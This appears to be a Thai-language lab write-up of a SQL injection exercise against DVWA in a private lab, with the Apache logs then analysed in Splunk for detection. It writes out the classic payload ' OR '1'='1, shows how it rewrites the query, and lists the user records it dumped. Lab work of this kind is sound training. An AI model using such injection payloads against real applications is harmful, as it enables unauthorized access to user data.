


# SQL Injection — DVWA + Splunk

## เป้าหมาย
- ทดสอบ SQL Injection บน DVWA
- ดึงข้อมูลจาก Database
- วิเคราะห์ Log ที่เกิดขึ้นใน Splunk

---

## Environment
| Component | Details |
|-----------|---------|
| Attacker | Kali Linux (172.16.143.1) |
| Target | DVWA — 172.16.143.131 |
| URL | http://172.16.143.131/DVWA/vulnerabilities/sqli/ |
| DVWA Security Level | Low |
| Web Server | Apache2 |
| Log Source | /var/log/apache2/access.log |

---

## ทฤษฎี SQL Injection คืออะไร
SQL Injection คือการที่ attacker แทรก SQL command เข้าไปใน input field เพื่อหลอกให้ database ทำงานตามที่ต้องการ เช่น ดึงข้อมูลที่ไม่ได้รับอนุญาต, bypass login, หรือลบข้อมูล

**ประเภทของ SQL Injection:**
| ประเภท | ความหมาย |
|--------|----------|
| Classic SQLi | ดึงข้อมูลผ่าน error หรือ response โดยตรง |
| Blind SQLi | ไม่เห็น error แต่ดูพฤติกรรมของระบบแทน |
| Time-based SQLi | ใช้ `SLEEP()` เพื่อวัดว่า query ทำงานหรือไม่ |
| Union-based SQLi | ใช้ `UNION` เพื่อดึงข้อมูลจาก table อื่น |

---

## ขั้นตอน

### 1. เข้า DVWA → SQL Injection
เปิดหน้า SQL Injection บน DVWA พบช่อง input รับค่า **User ID**



---

### 2. ทดสอบ Basic SQLi

**Payload ที่ใช้:**
' OR '1'='1
**วิธีพิมพ์:** กรอกใส่ช่อง User ID แล้วกด Submit

**เหตุผลที่ได้ผล:**  
Query เดิมในระบบคือ:
```sql
SELECT * FROM users WHERE id = '$input';
```
เมื่อใส่ payload เข้าไป กลายเป็น:
```sql
SELECT * FROM users WHERE id = '' OR '1'='1';
```
เงื่อนไข `'1'='1'` เป็น true เสมอ → ระบบ return ข้อมูลทุก record

**ผลลัพธ์ที่ได้:**
| First name | Surname |
|-----------|---------|
| admin | admin |
| Gordon | Brown |
| Hack | Me |
| Pablo | Picasso |
| Bob | Smith |


---

### 3. ดู Log ใน Splunk

**Query ที่ใช้:**

index=* sourcetype=access-too_small
**Log ที่พบ — วิเคราะห์:**
| ฟิลด์ | ค่าที่พบ |
|------|---------|
| Timestamp | 09/Apr/2026 18:27:13–18:27:21 |
| Source IP | 172.16.143.1 (Kali Linux) |
| Method | GET |
| URI | /DVWA/vulnerabilities/sqli/?id=%27+OR+%271%27%3D%271 |
| Payload (decoded) | `' OR '1'='1` |
| HTTP Status | 200 (สำเร็จ) |
| Host | kali |
| Log file | /var/log/apache2/access.log |

> **หมายเหตุ:** `%27` คือ URL encode ของ `'` (single quote) และ `%3D` คือ `=`



---

## ผลลัพธ์สรุป
| การทดสอบ | Payload | ผลลัพธ์ |
|----------|---------|---------|
| Basic SQLi | `' OR '1'='1` | ดึงข้อมูล user ทั้งหมดได้ 5 records |
| ตรวจพบใน Splunk | `index=* sourcetype=access-too_small` | พบ log การโจมตีพร้อม payload ใน URI |

---

## สิ่งที่เรียนรู้
> - SQL Injection เกิดจากระบบนำ input ของ user ไปต่อใน SQL query โดยตรงโดยไม่มีการ validate
> - Payload `' OR '1'='1` ทำให้ WHERE condition เป็น true เสมอ จึงดึงข้อมูลทุก record ออกมาได้
> - Log ใน Apache2 บันทึก payload ไว้ในรูป URL encode ซึ่ง Splunk สามารถ detect ได้
> - การโจมตีเกิดขึ้นหลายครั้งในช่วงเวลาสั้น (18:27:13–18:27:21) จาก IP เดียวกัน

---

## Conclusion
ระบบ DVWA ระดับ Low ไม่มีการป้องกัน SQL Injection ใดๆ ทำให้ attacker สามารถดึงข้อมูล user ทั้งหมดออกมาได้ด้วย payload เดียว และ Splunk สามารถตรวจจับการโจมตีได้จาก access log ของ Apache2 โดยสังเกตจาก URI ที่มี URL-encoded characters ผิดปกติ

---

## References
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [DVWA GitHub](https://github.com/digininja/DVWA)
- [Splunk Search Reference](https://docs.splunk.com/Documentation/Splunk/latest/SearchReference)